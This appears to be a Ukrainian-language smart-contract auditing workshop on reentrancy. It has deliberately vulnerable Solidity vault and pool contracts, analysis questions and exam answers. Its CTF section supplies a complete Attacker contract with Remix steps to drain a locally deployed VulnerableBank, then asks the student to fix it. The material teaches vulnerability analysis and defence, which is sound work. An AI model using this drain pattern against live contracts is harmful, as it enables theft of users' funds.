

# Практикум p01. Розслідування: Стейт-машини, Інваріанти та Дренінг

> 🚨 **Службова записка аудитора:**
> Ви щойно завершили вивчення "The DAO Hack", де світ втратив $60 мільйонів через запізнення запису в базу даних на мілісекунду. Ви знаєте історію. Тепер час побачити код.
> Ваша місія: на один воркшоп відкласти написання смарт-контрактів і перейти в режим інженерного слідчого ("Аналітика шкідливого ПЗ"). Ми будемо досліджувати контракти-пастки, щоб знайти ті самі "вікна десинхронізації", які досі крадуть гроші у Web3.

**Мета:** Навчитися читати смарт-контракти як детектив. Перестати мислити шаблонами та навчитися математично фіксувати патерн Checks-Effects-Interactions (CEI) як абсолютний захист стейт-машини. 

---

## Питання для обговорення (Перед початком)

1. Що таке "стейт-машина" (State Machine) в контексті Ethereum?
2. Як ви розумієте термін "Інваріант безпеки"? (Підказка: істина, яка має зберігатися *до* і *після* транзакції).

---

## 1. Логічна суперечність: Invariant & CEI

Більшість програмістів дивляться на Reentrancy просто як на "зовнішній виклик, який знову входить у функцію". Аналітики безпеки дивляться на це як на **порушення інваріанту**.

Інваріант фінансового контракту полягає в тому, що **внутрішній стан бази даних повинен математично збігатися з фактичним балансом (реальністю)**.

> [!NOTE]
> **Аналогія з Банкоматом (Для швидкого розуміння)**
> Уявіть банкомат, який працює за таким алгоритмом: перевіряє баланс, **1) видає вам купюри (Interaction)**, і тільки після того, як ви заберете гроші — **2) списує їх з вашого електронного рахунку (Effect)**.
> 
> Що відбудеться, якщо в момент, коли перший банкомат відкрив лоток із готівкою, ви встигнете через онлайн-банкінг або інший банкомат ще раз зняти цю ж суму? База даних відповість, що гроші досі є! *Реальність* (готівка вже у вас) розійшлася з *даними стейт-машини банку*. Саме тому оновлення бази (списання) повинно завжди відбуватися **до** моменту видачі готівки.

Патерн **Checks-Effects-Interactions (CEI)** — це не просто стилістична вимога, це гарантія дотримання інваріанту:

* **Checks:** Перевірка реальності (Чи є в тебе гроші?).
* **Effects:** Оновлення стейт-машини (Ми зменшуємо баланс — *фіксуємо реальність*).
* **Interactions:** Передача контролю зовнішньому світу (Відправка ETH або виклик іншого контракту).

❌ **Логічна суперечність виникає**, коли `Interaction` відбувається до того, як завершився `Effect`. В цей момент стейт-машина вашого контракту повідомляє: "у користувача повний баланс" — але це вже неправда, гроші передані. Це вікно можливостей (State Desynchronization) і є першопричиною The DAO Hack, детально описаного у [case_studies.md](../case_studies.md).



> [!TIP]
> **Інтерактивна візуалізація:** Відкрийте в браузері файл **[`dao_trace_visualizer.html`](./dao_trace_visualizer.html)** для інтерактивного завдання. Ви побачите симуляцію "сирого" EVM байткод-логу під час злому The DAO. Ваше завдання — клікнути на ту саму транзакцію, де хакер успішно викликав повторний вхід (Reentrancy).

---

## 2. Аналітика шкідливого коду (Практикум)

> [!IMPORTANT]
> **Золоте правило аудитора: Всі стани ми малюємо!**
> Ніколи не намагайтеся просто "втримати" зміну балансів у голові. Завжди малюйте (або уявляйте) графік із двома лініями: реальність проти локальної бази даних смарт-контракту. Щойно лінії розходяться — ви математично бачите вразливість.
>
> ```text
> Час виконання транзакції ----------------------------------------->
> 
>                            Interaction           Effect 
>                            (Відправка ETH)       (balances[User]=0)
>                                 │                     │
> 1. Реальний баланс ETH : 100 ──── 0 ────────────────── 0
>                                 │                     │
> 2. Запис у змінній     : 100 ──── 100 (❌ Вразливо!) ─ 0
>                                 │                     │
>                                 └── Вікно Можливостей ┘
>                                     (Reentrancy)
> ```

У цьому розділі ваше завдання — не виправляти синтаксичні помилки, а читати код як аудитор смарт-контрактів. Перед вами **два контракти-пастки (honeypots)**. Вони створені таким чином, щоб виглядати безпечними для новачка, але обидва містять фатальну логічну вразливість.

### Honeypot A: Ілюзія Безпечного Виклику

**Завдання:** Проаналізуйте наведений нижче код. Знайдіть причину, через яку хакер може вивести всі кошти з цього `Vault`.

```solidity
contract HiddenReentrancyVault {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient funds");

        // Відправляємо кошти (Interaction)
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");

        // Офлоадимо оновлення балансу в допоміжну функцію
        _updateAccounting(msg.sender, _amount);
    }

    function _updateAccounting(address _user, uint _amount) internal {
        // Effect
        balances[_user] -= _amount;
    }
}
```

**Питання для реверс-інжинірингу:**
1. Чи порушується тут патерн CEI? Обґрунтуйте.
2. Що саме відбудеться, якщо `msg.sender` — це шкідливий смарт-контракт, який має `fallback` функцію, що знову викликає `withdraw()`?
3. Яке має бути значення `balances[msg.sender]` у момент повторного виклику?
4. **Еволюція атак:** Сьогодні хакери рідко використовують функцію отримання "голого ефіру" (`fallback`) для повторного входу. Уявіть, що замість відправки ETH, контракт відправляє NFT за допомогою `safeTransferFrom` (ERC721/ERC1155). Яку саме легітимну функцію (хук) використає смарт-контракт зловмисника для повторного входу? (Підказка: див. міні-кейс наприкінці сторінки).
5. **Механіка EVM (transfer vs call):** Зверніть увагу, що тут використано `call{value: _amount}("")`, який передає весь доступний газ. Історично розробники часто використовували `msg.sender.transfer(_amount)`, який мав жорсткий ліміт у 2300 gas спеціально для захисту від Reentrancy. Що трапиться з атакою на цей контракт, якщо ліміт газу для `fallback`-функції хакера буде суворо обмежено (2300 gas)? Чому ж у сучасному DeFi відмовилися від використання `transfer()`?

---

### Honeypot B: Оманливий Check

**Завдання:** Розробник стверджує, що цей контракт абсолютно безпечний від Reentrancy, оскільки він "перевіряє баланс після виконання" переказу. Знайдіть логічну діру.

```solidity
contract IllusionVault {
    mapping(address => uint) public balances;
    uint public totalLocked;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
        totalLocked += msg.value;
    }

    function withdraw() public {
        uint amountToWithdraw = balances[msg.sender];
        require(amountToWithdraw > 0, "No balance");

        // Зовнішній виклик (Interaction)
        (bool ok, ) = msg.sender.call{value: amountToWithdraw}("");
        require(ok, "Transfer failed");

        // "Безпечний Check-Effect" *після* переказу?
        require(balances[msg.sender] == amountToWithdraw, "State mismatch detected?!");
        balances[msg.sender] -= amountToWithdraw;
        totalLocked -= amountToWithdraw;
    }
}
```

**Питання для реверс-інжинірингу:**
1. Чому рядок `require(balances[msg.sender] == amountToWithdraw...` абсолютно ніяк не допомагає проти Reentrancy?
2. Опишіть покроково стан змінної `balances[msg.sender]` при двох послідовних вкладених викликах `withdraw()`.

---

### Honeypot C: Read-Only Reentrancy (Маніпуляція View-функціями)

**Завдання:** Сучасні DeFi протоколи часто ламають через "Read-Only Reentrancy". Подивіться на цей спрощений пул ліквідності. Функція `removeLiquidity` захищена модифікатором `nonReentrant`, тобто класичний дренінг неможливий. Проте, розробники іншого зовнішнього DeFi-сервісу покладаються на "безпечну" `view` функцію `getVirtualPrice()`, щоб оцінити вартість LP токенів пулу. 

Знайдіть, яким чином хакер може змусити `getVirtualPrice()` тимчасово видавати **знецінену або завищену вартість** під час виконання транзакції (маніпулюючи десинхронізованим view-інваріантом).

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract ReadOnlyPool is ReentrancyGuard {
    uint public totalLiquidity;
    uint public totalSupply; // кількість випущених LP токенів

    // Функція, яку викликають інші контракти для оцінки вартості
    function getVirtualPrice() public view returns (uint) {
        if (totalSupply == 0) return 0;
        return (totalLiquidity * 1e18) / totalSupply;
    }

    function removeLiquidity(uint _lpTokens) public nonReentrant {
        require(_lpTokens > 0, "Zero tokens");
        
        // 1. Обчислюємо частку ETH для користувача
        uint ethToReturn = (_lpTokens * totalLiquidity) / totalSupply;

        // 2. Спалюємо LP токени (Effect 1)
        totalSupply -= _lpTokens;

        // 3. Відправляємо ETH (Interaction)
        (bool success, ) = msg.sender.call{value: ethToReturn}("");
        require(success, "Transfer failed");

        // 4. Оновлюємо загальну ліквідність (Effect 2)
        // ❌ ВРАЗЛИВІСТЬ: Цей Effect відбувається ПІСЛЯ Interaction
        totalLiquidity -= ethToReturn;
    }
}
```

**Питання для реверс-інжинірингу:**

1. **Матриця станів (Заповніть пропуски):** Щоб візуально побачити момент "злому ціни", заповніть цю таблицю. Уявіть стартові умови: у пулі було загалом 100 LP-токенів, забезпечених 100 ETH. Хакер знімає свої 50 LP-токенів.

| Етап транзакції | `totalSupply` | `totalLiquidity` | `getVirtualPrice()` |
| :--- | :---: | :---: | :---: |
| **A.** До виклику `removeLiquidity(50)` | 100 | 100 | 1.0 (ETH) |
| **B.** Одразу після спалювання LP (Effect 1) | `___` | `___` | `___` |
| **C.** Під час `msg.sender.call` (🔴 **Вікно десинхронізації**) | `___` | `___` | `___` |
| **D.** Транзакція завершилась (Effect 2) | `___` | `___` | `___` |

2. Дивлячись на ваші розрахунки у **Рядку C**, дайте відповідь: якщо зовнішня Lending/Borrowing платформа запитає ціну вашого LP-токена _саме під час вашого fallback виклику_, яку спотворену ціну вона отримає? Як це дозволить викрасти кошти з Lending-протоколу?
3. Доведіть, що застосування суворого інваріанту CEI (навіть без `nonReentrant`) для оновлення `totalLiquidity` **до** `msg.sender.call` робить математичний збій у Рядку C неможливим.

---

## 3. Інструментарій автоматичного пошуку (Static Analysis & Formal Verification)

Навчатися "бачити приховане" очима — це фундаментальний інженерний навик. Але в реальному Web3-просторі Senior аудитори завжди починають з автоматизованих тулів. Оскільки CEI — це суворий логічний патерн, його порушення чудово піддається виявленню машинами.

1. **Статичний аналіз (напр., Slither):** 
   Інструменти на кшталт Slither парсять абстрактне синтаксичне дерево контракту та будують абстракції, зокрема **Графи потоку управління (Control Flow Graphs, CFG)**. Програма шукає графові шляхи, де оператор запису в змінну стану (Effect) розташований *після* оператора `CALL` або хука стандартів токенів (Interaction). Щойно такий шлях знайдено програмно, сканер б'є на сполох про потенційний Reentrancy, навіть якщо код "на око" виглядає безпечним.

2. **Формальна верифікація (Formal Verification):**
   Більш просунутий математичний рівень. За допомогою спеціалізованих інструментів (Certora, Halmos) або інтерпретаторів, контракт перетворюється на серію строгих математичних аксіом. Ви як аудитор задаєте **інваріант** — наприклад: *"Батьківська змінна totalLiquidity ніколи не може бути десинхронізованою з totalSupply під час викликів"*. Автоматичний доводжувач (Prover) алгоритмічно досліджує всі можливі стани EVM. Якщо існує хоча б один математичний шлях виконання (як у Honeypot A, B чи C), де інваріант ефемерно ламається, система повідомляє про вразливість із гарантією математичного доказу.

---

## 4. Практика: Однокліковий CTF у Remix IDE (Дренінг контракту)

Відчути хакерський азарт від написання експлойту та миттєвого спустошення балансу (дренінгу) — це найкращий спосіб запам'ятати вразливість на все життя. Щоб ви не витрачали час на вирішення проблем із синтаксисом, ми підготували готовий **"One-Click CTF"**.

Нижче наведено код. У ньому вже є і жертва (`VulnerableBank`), і повноцінний хакерський контракт (`Attacker`). Ваша мета — спочатку пограбувати банк однією кнопкою, а потім — знешкодити експлойт, виправивши всього один рядок коду.

### Завдання 1: Викрадення (The Heist)
1. Відкрийте [Remix IDE](https://remix.ethereum.org/). Створіть файл `CTF.sol` і вставте код нижче.
2. Скомпілюйте його.
3. Перейдіть на вкладку **Deploy & Run**. Задеплойте `VulnerableBank`, передавши йому **10 ETH** (вгорі секції вкажіть Value: 10 Ether і натисніть Deploy).
4. Скопіюйте адресу задеплоєного банку. Після цього задеплойте `Attacker`, вставивши цю адресу в поле параметра конструктора.
5. Натисніть кнопку `attack()` у контракті хакера, віддавши йому лише **1 ETH** (Value: 1 Ether).
6. 💥 Перевірте магію: викличте `getBankBalance()`. Він став нульовим! Ваші стартові 1 ETH перетворилися на 11 ETH у балансі контракту хакера. Ви щойно розірвали пул за одну транзакцію!

### Завдання 2: Ремонт (The Fix)
Поверніться до коду `VulnerableBank`. **Змініть розташування лише одного рядка коду**, щоб імплементувати патерн Checks-Effects-Interactions (CEI) і відновити інваріант. 
Передеплойте обидва контракти і переконайтеся, що кнопка `attack()` більше не приносить хакеру легких грошей!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Контракт-Жертва
contract VulnerableBank {
    mapping(address => uint) public balances;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw() public {
        uint amount = balances[msg.sender];
        require(amount > 0, "No funds");
        
        // Interaction
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
        
        // Effect (Вразливе місце: стейт оновлюється занадто пізно)
        balances[msg.sender] = 0;
    }
    
    function getBankBalance() public view returns (uint) {
        return address(this).balance;
    }
}

// Контракт-Хакер (готовий)
contract Attacker {
    VulnerableBank public target;
    
    constructor(address _target) {
        target = VulnerableBank(_target);
    }
    
    function attack() public payable {
        require(msg.value >= 1 ether, "Need 1 ETH to attack");
        target.deposit{value: 1 ether}();
        target.withdraw();
    }
    
    // Fallback-функція: викликається КОЖЕН РАЗ, коли Банк надсилає нам ETH
    receive() external payable {
        // Якщо у Банку ще залишилися гроші - заходимо знову до того, як Банк спише наш баланс!
        if (address(target).balance >= 1 ether) {
            target.withdraw();
        }
    }
    
    function getStolenBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

---

## Питання та відповіді (екзаменаційний блок)

**П1.** Що таке Reentrancy з точки зору архітектури локальної стейт-машини?

**В1.** Reentrancy — це маніпуляція десинхронізованим станом. Ситуація виникає, коли контракт передає керування (Interaction) іншому контракту в той момент, коли його власні змінні стану (Effects) ще не оновлені і не відповідають реальності. Атакуючий використовує цей застарілий стан для повторного входу і виклику функцій.

---

**П2.** Як патерн Checks-Effects-Interactions (CEI) запобігає цій маніпуляції?

**В2.** CEI гарантує, що контракт завжди синхронізує свою локальну стейт-машину з реальністю (Effects: баланс вже нуль) *до* того, як передасть контроль недовіреному об'єкту (Interactions: виконання `call`). Якщо атакуючий намагається увійти повторно, він зустрічає стейт, в якому його кошти вже списані (Checks).

---

**П3.** Чи гарантує використання модифікатора `nonReentrant` (OpenZeppelin) відсутність архітектурних помилок логіки?

**В3.** Ні. `nonReentrant` діє як "милиця" (Mutex), блокуючи конкретно технічний повторний вхід у функцію. Однак він не вирішує фундаментальної проблеми десинхронізації стану. Контракт все ще може передавати керування з неправильним інваріантом, що може бути використано для атак типу "Cross-Function Reentrancy" (читання невірного стану іншою функцією).

---

## 🎓 Інженерний міні-кейс (на 1 бал): Ілюзія Вразливості ("Reverse Honeypot")

Більшість junior-аудиторів мислять шаблонами: "якщо Effect після Interaction — то це 100% Reentrancy, пишу репорт". Справжній інженер дивиться глибше і прораховує зміну стейту до самого кінця життєвого циклу транзакції.

Ви — аудитор. Вам принесли на перевірку наступний контракт, написаний на **Solidity 0.8.0+**. Розробник свідомо проігнорував `nonReentrant` і грубо порушив патерн CEI, розмістивши `Interaction` безпосередньо перед `Effect`.

```solidity
pragma solidity ^0.8.0;

contract AccidentalProtectionVault {
    mapping(address => uint) public balances;
    
    function withdraw(uint amount) public {
        // Checks
        require(balances[msg.sender] >= amount, "No funds");
        
        // Interactions (ВРАЗЛИВІСТЬ! External call до оновлення стану)
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        // Effects (Оновлення балансу ЗАЗНАДТО пізно)
        balances[msg.sender] -= amount; 
    }
}
```

**Питання для сеньйор-рівня:**
На перший погляд, цей контракт є класично вразливим до багаторазового дренінгу (як у The DAO). Однак, абстрагуйтеся від шаблонів: будь-яка реальна спроба хакера здійснити класичну вкладену Reentrancy-атаку на цей Vault **завершиться повним провалом**, а викрадені в рамках взаємодії (`call`) кошти магічним чином відкотяться назад у пул наприкінці транзакції (Transaction Revert). 

Чому цей контракт, незважаючи на грубе і очевидне порушення CEI і повну відсутність `nonReentrant`, є фактично захищеним від класичного Reentrancy-дренінгу? (Підказка: зверніть увагу на версію `pragma solidity ^0.8.0` та математичну механіку, яка активується на етапі `Effect`, коли стек викликів хакера почне повертатися назад (схлопуватись) і подвійно віднімати `amount` від поточного балансу).
